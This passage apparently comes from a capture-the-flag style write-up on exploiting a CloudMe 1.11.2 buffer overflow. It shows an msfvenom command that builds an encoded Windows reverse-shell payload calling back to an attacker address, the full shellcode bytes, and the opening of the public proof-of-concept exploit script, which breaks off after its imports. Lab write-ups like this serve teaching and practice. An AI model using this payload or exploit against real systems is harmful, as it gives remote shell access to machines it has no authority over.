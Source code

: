 ### Modifying the exploit.
We can use <code class="language-plaintext highlighter-rouge">msfvenom</code> to generate our payload and get a reverse shell.


```shell
┌──(sid㉿kali)-[/tmp]
└─$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=7777 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1869 bytes
payload =  b""
payload += b"\xd9\xee\xd9\x74\x24\xf4\xba\xf4\xf2\xbf\xb8\x5f"
payload += b"\x2b\xc9\xb1\x52\x31\x57\x17\x03\x57\x17\x83\x1b"
payload += b"\x0e\x5d\x4d\x1f\x07\x20\xae\xdf\xd8\x45\x26\x3a"
payload += b"\xe9\x45\x5c\x4f\x5a\x76\x16\x1d\x57\xfd\x7a\xb5"
payload += b"\xec\x73\x53\xba\x45\x39\x85\xf5\x56\x12\xf5\x94"
payload += b"\xd4\x69\x2a\x76\xe4\xa1\x3f\x77\x21\xdf\xb2\x25"
payload += b"\xfa\xab\x61\xd9\x8f\xe6\xb9\x52\xc3\xe7\xb9\x87"
payload += b"\x94\x06\xeb\x16\xae\x50\x2b\x99\x63\xe9\x62\x81"
payload += b"\x60\xd4\x3d\x3a\x52\xa2\xbf\xea\xaa\x4b\x13\xd3"
payload += b"\x02\xbe\x6d\x14\xa4\x21\x18\x6c\xd6\xdc\x1b\xab"
payload += b"\xa4\x3a\xa9\x2f\x0e\xc8\x09\x8b\xae\x1d\xcf\x58"
payload += b"\xbc\xea\x9b\x06\xa1\xed\x48\x3d\xdd\x66\x6f\x91"
payload += b"\x57\x3c\x54\x35\x33\xe6\xf5\x6c\x99\x49\x09\x6e"
payload += b"\x42\x35\xaf\xe5\x6f\x22\xc2\xa4\xe7\x87\xef\x56"
payload += b"\xf8\x8f\x78\x25\xca\x10\xd3\xa1\x66\xd8\xfd\x36"
payload += b"\x88\xf3\xba\xa8\x77\xfc\xba\xe1\xb3\xa8\xea\x99"
payload += b"\x12\xd1\x60\x59\x9a\x04\x26\x09\x34\xf7\x87\xf9"
payload += b"\xf4\xa7\x6f\x13\xfb\x98\x90\x1c\xd1\xb0\x3b\xe7"
payload += b"\xb2\xb4\xb1\xe9\x41\xa1\xc7\xf5\x5b\x50\x41\x13"
payload += b"\x09\x82\x07\x8c\xa6\x3b\x02\x46\x56\xc3\x98\x23"
payload += b"\x58\x4f\x2f\xd4\x17\xb8\x5a\xc6\xc0\x48\x11\xb4"
payload += b"\x47\x56\x8f\xd0\x04\xc5\x54\x20\x42\xf6\xc2\x77"
payload += b"\x03\xc8\x1a\x1d\xb9\x73\xb5\x03\x40\xe5\xfe\x87"
payload += b"\x9f\xd6\x01\x06\x6d\x62\x26\x18\xab\x6b\x62\x4c"
payload += b"\x63\x3a\x3c\x3a\xc5\x94\x8e\x94\x9f\x4b\x59\x70"
payload += b"\x59\xa0\x5a\x06\x66\xed\x2c\xe6\xd7\x58\x69\x19"
payload += b"\xd7\x0c\x7d\x62\x05\xad\x82\xb9\x8d\xdd\xc8\xe3"
payload += b"\xa4\x75\x95\x76\xf5\x1b\x26\xad\x3a\x22\xa5\x47"
payload += b"\xc3\xd1\xb5\x22\xc6\x9e\x71\xdf\xba\x8f\x17\xdf"
payload += b"\x69\xaf\x3d"
```
Now I will just replace the payload in the exploit with the payload created with msfvenom.

Exploit Script:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket
```